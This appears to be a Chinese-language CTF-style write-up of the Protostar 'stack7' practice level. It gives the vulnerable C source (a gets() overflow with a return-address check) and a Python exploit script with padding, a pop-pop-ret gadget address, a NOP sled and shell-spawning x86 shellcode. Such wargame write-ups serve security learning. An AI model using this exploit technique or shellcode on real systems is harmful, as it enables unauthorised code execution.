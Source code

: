 Stack6 introduces return to .text to gain code execution.

The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.

This level is at `/opt/protostar/bin/stack7`.

### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```



## 攻击目标

让程序执行指定shellcode：`/bin/sh`。



## 攻击过程

```shell
$ cat stack7_rop.py
import struct

padding = "A" * 80
ppr = struct.pack("I", 0x08048492) # gadget的地址
pop1 = "AAAA"
pop2 = "BBBB"
ret = struct.pack("I", 0xbffffd1c+32) # esp+32
slide = "\x90" * 50 # nop块
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
print padding + ppr + pop1 + pop2 + ret + slide + shellcode
$ python stack7_rop.py
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA    AAAABBBB # 后接一堆乱码
```